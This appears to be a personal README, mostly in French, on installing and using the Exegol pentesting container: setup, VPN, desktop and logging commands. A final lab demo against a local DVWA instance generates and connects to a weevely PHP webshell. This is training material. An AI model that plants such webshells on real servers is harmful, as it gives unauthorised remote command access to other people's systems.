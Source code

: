 # exegol
* INSTALLATION 
```
apt install git-all
```
```
git version
```
```
apt install python3
```
```
python3 --version
```
```
apt install python3-pip
```
```
pip --version
```
```
apt install curl
```
```
apt install argcomplete
```

installing docker : 
```
python3 -m  pip install exegol
```
```
apt install bash-completion
```
```
export PATH="$HOME/.local/bin:$PATH"
```
```
sudo exegol -h
```
```
sudo exegol info
```
```
exegol start -h
```
```
exegol start demo light
```
```
nmap localhost
```
```
exit
```
```
sudo exegol info
```
```
exegol stop demo
```

* OPTIONS VPN: 
```
sudo exegol start hackthebox --vpn <chemin_conf_vpn>
```
oublier l'image : il va remettre le tableau et proprosé :  </br>
veuillez rajouter resolv.conf : </br>
Tester ping </br>
 
* DEMO2 : DESKTOP
```
sudo exegol start demo2 light --desktop
```
ouvrir lien dans firefox </br>
id : root </br>
mdp : copier coller </br>
```
exit 
```
* LOG
ascinema (historique) 
```
sudo exegol start demo2 light --l
```
```
ls
```
```
cd logs
```
```
ls asciinema xxx.asciinema
```
```
sudo ls /root/.exegol/workspaces/demo2/logs
```

* demos 4 : 
```
exegol install nightly
```
```
exegol start master
```
```
burpsuitecommunity
```
```
docker run --rm  -p 80:80 vulnerables/web-dvwa
```
login : admin </br>
password : password </br>
click upload : eicar.exe (detectér antivirus) </br>
```
weevly : webshell
```
```
weevly generate MyPass beacon.php
```
```
weevly http://localhost/hackable/uploads/beacon.php beacon.php
```
```
id
```
```
ls -al
```
```
echo "GET PWN"
```







  



